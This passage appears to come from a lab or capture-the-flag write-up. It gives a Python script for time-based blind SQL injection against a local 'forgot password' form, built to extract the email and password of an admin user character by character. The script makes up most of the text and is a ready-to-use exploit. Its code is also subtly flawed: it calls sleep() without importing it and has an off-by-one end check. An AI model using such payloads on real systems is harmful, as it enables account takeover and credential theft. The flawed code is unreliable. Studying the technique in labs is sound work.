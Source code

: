 Therefore, we just have to get the `email` and `password` values for user `j0j0_admin123` and we will have everything we need. On this last part, we use the [`BINARY`](https://dev.mysql.com/doc/refman/5.7/en/cast-functions.html#operator_binary) cast to make our request case sensitive, as we need the exact values. Also note that we need to determine the length of the values before getting them, as they can include spaces and are not space terminated, as the table and column names were.

```python
import requests
import string
from time import time

alphabet = string.ascii_letters+string.digits+"_-.@$/ "

url = "http://localhost/?page=forgot"

columns = ["email", "password"]
lengths = {}

payload_len = "' or if((select length({}) from j0j0_users where username=0x6a306a305f61646d696e313233) = {},sleep(2),0) -- "

for column in columns:
	for i in range(1000):
		sleep(0.6)
		t1 = time()
		p = payload_len.format(column, str(i))
		r = requests.post(url, data={"email": p})
		t2 = time()
		if t2-t1 > 1:
			lengths[column] = i
			break  

payload = "' or if((select BINARY SUBSTRING({},{},1) from j0j0_users where username=0x6a306a305f61646d696e313233 limit 0,1)={}, sleep(2), null) -- "

num_char = 1
num_column = 0
value = ""
values = {}

while True:
	stop = True
	for char in alphabet:
		sleep(0.6)
		t1 = time()
		p = payload.format(columns[num_column], num_char, hex(ord(char)))
		r = requests.post(url, data={"email": p})
		t2 = time()
		if t2-t1 > 1:
			stop = False
			value += char
			num_char += 1
			if len(value) >= lengths[columns[num_column]]:
				values[columns[num_column]] = value
				num_column += 1
				num_char = 1
				value = ""
				if num_column > len(columns):
					stop = True
	if stop == True:
		for k,v in values.items():
			print(f"{k}: {v}")
		break
```
